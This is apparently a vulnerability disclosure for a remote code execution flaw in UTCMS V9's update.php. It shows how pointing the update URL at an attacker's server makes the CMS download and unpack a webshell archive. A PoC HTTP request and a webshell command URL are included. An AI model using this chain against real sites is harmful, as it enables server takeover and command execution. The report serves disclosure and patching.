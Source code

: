 # Vendor

HuangDou

# Product

UTCMS

# version

 V9

# Download 

https://github.com/usualtool/ut-cms

# Vulnerability

RCE

# Description

In the update.php page, users can remotely downloading the compressed package and automatically decompressing it and RCE.

# Analysis

In the app/modules/ut-frame/admin/update.php , users can remotely downloading the compressed package and automatically decompressing it and RCE. We can upload a zip compressed package on the remote server, which contains a webshell file.
example：http://xxx.com/xxx.zip
http://192.168.1.69/webshell.zip

Then we modify the system configuration and change the UPDATEURL to our remote server, such as http://192.168.1.69
<img width="1993" height="1282" alt="image" src="https://github.com/user-attachments/assets/0b50b592-a054-42ff-b6dc-caf09495d618" />

Then we construct the request:
<img width="505" height="354" alt="image" src="https://github.com/user-attachments/assets/d88f15c8-f48a-40a9-88e1-9ec8077e5729" />

You can see that webshell.zip was successfully downloaded and webshell.php was generated
<img width="683" height="222" alt="image" src="https://github.com/user-attachments/assets/e32bcf2c-9de0-4fce-90d8-d7de0d6c1443" />

We access the webshell to execute the command:
http://192.168.1.69/ut-cms-9/update/webshell.php?cmd=id
<img width="1028" height="293" alt="image" src="https://github.com/user-attachments/assets/4d4e577a-b9c6-47d2-a812-0eb28f121702" />


# POC
```
GET /ut-cms-9/app/dev/?p=update&i=webshell&t=update HTTP/1.1
Host: 192.168.1.69
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=l7s63btrio4o1cepgib2l9v89m

request：
http://192.168.1.69/ut-cms-9/update/webshell.php?cmd=id
```
webshell RCE:

